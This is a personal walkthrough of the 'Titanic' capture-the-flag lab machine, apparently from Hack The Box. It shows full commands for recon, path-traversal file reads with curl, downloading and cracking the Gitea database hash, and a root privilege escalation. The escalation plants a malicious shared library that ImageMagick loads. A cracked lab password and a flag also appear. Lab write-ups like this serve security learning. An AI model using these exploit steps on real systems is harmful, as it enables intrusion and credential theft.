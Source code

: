 # Titanic Lab-Total time 3 days

---

## The first and half of second day I used to recon the machine and website and scripts to use, rest of second day and third i actively looked around the machine for the flags and scripts to use to escalate privileges.

### MARKED AS EASY BUT IT WAS NOT FOR SOMEONE WITH LIMITED KNOWLEDGE

First step was to run nmap scan

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Results:

![image (1).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(1).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/7cd73a4c-1f71-4960-91d2-28890cd5ab96)

I then ran port 80 scan to get more data on it

```bash
nmap -sV -p 80 10.10.11.55 -T5
```

![image (2).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(2).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/c008bdfb-f899-45cb-bc70-a76272d55a04)

I added the IP address to the host list

```bash
sudo nano /etc/hosts/
```

![image (3).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(3).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/102ee87e-95da-4ab9-b3b0-d208fb114f78)

after doing that i ran gobuster scan with common wordlist

```bash
gobuster dir -u http://titanic.htb/ -w /usr/share/wordlists/dirb/common.txt
```

![image (4).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(4).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/594cdd52-a4a8-4765-a508-c758d16c2478)

I visited the website and clicked around, i booked the ticket while checking browser web developer network section and noticed the the address that redirects to the download

![image (5).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(5).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/28cfde2c-54e3-4e78-9514-39b2e506e301)

After numerous types of research I found something called LFI (Local File Intrusion)

I researched common commands used with it and I used #curl

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

![image (6).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(6).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/ced61489-2261-404b-a8cb-3c008c465f89)

I recorded possible users like root, man, nobody, developer, _laurel

I then tried to check hosts

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/hosts"
```

Found a wildcard for the domain called dev.titanic.htb

![image (7).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(7).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/4f4b51df-bd6b-42b2-92a8-f8450941db9f)

![image (8).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(8).png)

I added the domain to the host list

![image (9).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(9).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/e2f53f34-c393-48bc-9315-4fb7914858c9)

And i ran gobuster again with the new domain added

![image (10).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(10).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/fe7b86c3-442d-4896-bc56-592affc5420f)

I used curl to get data from admin, developer, administrator

and research showed that they are using gitea to host the site and found their repo

Upon reviewing the repo I found they were using #MYSQLas database

![image (11).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(11).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/30aa7b83-0b6b-4cf7-aecf-e432d96d24c6)

and their password

![image (12).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(12).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/3fc1406b-0595-4920-acdb-d93f3370c431)

after researching how gitea sets up in a directory i tried with the previously recorded users which only developer worked.

```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

This saved the file with their whole database

I used

```bash
sqlite3 gitea.db
#once opened i ran.tables
```

![image (13).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(13).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/9e02ce8d-43e4-49d8-a33a-6a7f2999c6c3)

I researched how to traverse database and tried multiple commands until i found the working one related to users

```bash
SELECT * FROM user;
```

This showed me the hashed credentials for users

![image (14).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(14).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/bff8929f-5e55-4bc5-9a8e-3fd485ff95dc)

Since we were working in developer i saved developer’s hash in a hash.txt file

I used AI translate the developer hash into sha256 I then used #hashcat

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile cracked.txt
```

This process took around 2-3 hours I successfully got access to the password for developer

![image (15).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(15).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/67523a9e-cbda-42cf-8bae-b7170ab0fa99)

developer:25282528

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/e1f489fc-58c4-4fe1-a430-14ca56fa7fa5)

using ls i found file named user.txt which contained the flag for user

![image.png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image.png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/5cf4515d-b889-458f-a7f8-7d90c62a2b26)

After several minutes traversing around and looking around for root flag i found the root.txt file in tmp folder but i also figured out that developer did not have sudo power but in my search i found an interesting file that is running a script using magick, after investigating further I found out that Imagemagick was used to escalate privilages and did more research

![image (16).png](Titanic%20Lab-Total%20time%203%20days%201df5b4e7124c809c99a5c47772d9dcc0/image_(16).png)

[image](https://app.capacities.io/eb63b4f1-2b8f-411d-b0fe-a58b0d8c4b97/8a0eafa8-458d-49c5-8279-62af18fe0d7e)

Researching around i found a script that was used with magick i just modified the directories i needed

```bash
cd /tmp
gcc -shared -fPIC -o libxcb.so.1 -x c - << 'EOF'#include <stdlib.h>__attribute__((constructor)) void init() {    system("cp /root/root.txt /tmp/root.txt; chmod 644 /tmp/root.txt;");}EOF
```

This command compiles a C program into a shared object (library) named libxcb.so.1.

- **shared**: Instructs gcc to create a shared library (a .so file) rather than an executable.
- **fPIC**: Generates position-independent code, which is required for shared libraries to work correctly across different memory addresses.
- **o libxcb.so.1**: Specifies the output file name as libxcb.so.1.
- **x c**: Tells gcc to treat the input as C code, even though it’s not read from a file with a .c extension.
- **<< ‘EOF’**: Uses a here-document to provide the C code directly from the command line, ending when EOF is encountered.

```bash
mv /tmp/libxcb.so.1 /opt/app/static/assets/images/
```

Moves the compiled libxcb.so.1 from /tmp to /opt/app/static/assets/images/, the working directory of the identify_images.sh script.

By placing libxcb.so.1 in /opt/app/static/assets/images/, you increase the likelihood that ImageMagick loads our malicious library instead of the legitimate libxcb.so.1, triggering the payload.

```bash
cat /etc/crontab
```

Checking /etc/crontab (and possibly /etc/cron.*/*) helps confirm whether identify_images.sh is scheduled to run automatically as root via a cron job. For example, a line like */5*  * * * root /opt/scripts/identify_images.sh would indicate the script runs every 5 minutes as root.

```bash
cat /tmp/root.txt
```

root password : 2a523b982f4c3b11feb62d868bf67fb4